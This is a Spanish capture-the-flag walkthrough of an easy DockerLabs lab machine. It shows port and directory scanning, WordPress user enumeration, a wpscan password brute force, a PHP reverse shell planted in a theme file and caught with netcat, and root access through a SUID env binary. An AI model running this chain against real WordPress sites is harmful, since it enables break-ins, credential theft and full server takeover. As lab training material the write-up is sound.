









[[Writeups]]
#Writeups #Easy #DockerLabs


Empezamos con un escaneo general de todos los puertos:
```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-21 21:56 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.09 seconds

```

Encontramos solo el puerto 80 abierto con un servicio http, vamos a hacer un escaneo mas profundo a ver que encontramos:


``` bash
❯ sudo nmap -sCV -p80 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-21 21:58 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.58 seconds
```

Detectamos que es un Apache httpd 2.4.57.

Hacemos una búsqueda de directorios con gobuster y encontramos un directorio wordpress:



dentro del directorio worpress también encontramos esto 
``` bash
❯ gobuster dir -u 172.17.0.2/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/wordpress
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

encontramos esta web:



dentro del comentario de Hola mundo vemos que lo ha subido el ususario mario por lo que podríamos usarlo para futuros ataques de fuerza bruta, por lo tanto entramos al panel de admin y ponemos el ususario mario y una contraseña aleatoria para ver si nos indica que el ususario es correcto:



y efectivamente, wordpress nos confirma que el usuario mario existe por el error que nos lanza, pero no sabemos la contraseña.

Vamos a usar una herramienta que también nos servirá para los que nos estamos preparando la ejpt V2, wpscan, esta herramienta te permite enumerar ususarios y realizar ataques de fuerza bruta específicamente para wordpress:

Para enumerar usuarios escribimos lo siguiente:

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u

# Y confirmamos por segunda vez el ususario mario:

[i] User(s) Identified:

[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue May 21 22:50:53 2024
[+] Requests Done: 13
[+] Cached Requests: 46
[+] Data Sent: 3.584 KB
[+] Data Received: 11.221 KB
[+] Memory used: 266.195 MB
[+] Elapsed time: 00:00:03

```

Por lo tanto vamos a realizar un ataque de fuerza bruta con la herramienta wpscan usando el rockyou.

```bash
❯ wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` |  _ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://172.17.0.2/wordpress/ [172.17.0.2]

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                                                                                      
Trying mario / badboy Time: 00:00:01 <                                                                                                                > (390 / 14344782)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue May 21 23:02:28 2024
[+] Requests Done: 562
[+] Cached Requests: 5
[+] Data Sent: 256.485 KB
[+] Data Received: 462.469 KB
[+] Memory used: 273.539 MB
[+] Elapsed time: 00:00:08

```

Y en unos segundos obtenemos un caso positivo:
User: **mario** 
Password: **love**



nos logeamos y efectiviwonder, el usuario y la pass son correctas:



Una vez aquí, una forma de obtener una reverse shell es cambiando el código de los archivos de temas o plugins que haya descargado, por lo que vamos a apariencia y vemos que tiene el tema de Twenty Twenty-Four

Por lo que vamos al Theme Code editor para editar manualmente archivos especificos de este tema:



accedemos al archivo index.php clickando y vemos el código que tiene, así que vamos a meter un código php de revshells para ejecutar la shell desde aquí:



insertamos la revshell de pentest monkey en el archivo index.php y le damos a upload file.

Ahora inicamos net cat desde nuestra terminal y nos quedamos a la escucha:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
```

para acceder al archivo modificado tendremos que entrar en el directorio:

/wp-content/themes/twentytwentytwo/index.php

Ya que dentro de wp-content/themes se guardan todos los archivos que podemos modificar de los temas instalados en nuestro caso la url entera sera:

http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php

y obtenemos acceso:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 39232
Linux 5ce6219148a7 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 GNU/Linux
 21:30:57 up  2:04,  0 user,  load average: 0.88, 1.12, 1.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (262): Inappropriate ioctl for device
bash: no job control in this shell
www-data@5ce6219148a7:/$ 
```

enumeramos permisos sudo y SUID y vemos que tenemos un SUID de env:

```bash
www-data@5ce6219148a7:/$ whoami
whoami
www-data
www-data@5ce6219148a7:/$ sudo -l
sudo -l
bash: sudo: command not found
www-data@5ce6219148a7:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/env
```

vamos a gtfobins y buscamos env, para suid podemos elevar permisos con este comando: 



```bash
./env /bin/sh -p
```

por lo que accedemos a /usr/bin y ejecutamos el comando:



Y obtenemos root. 
Con esto ya hemos vulnerado la maquina.
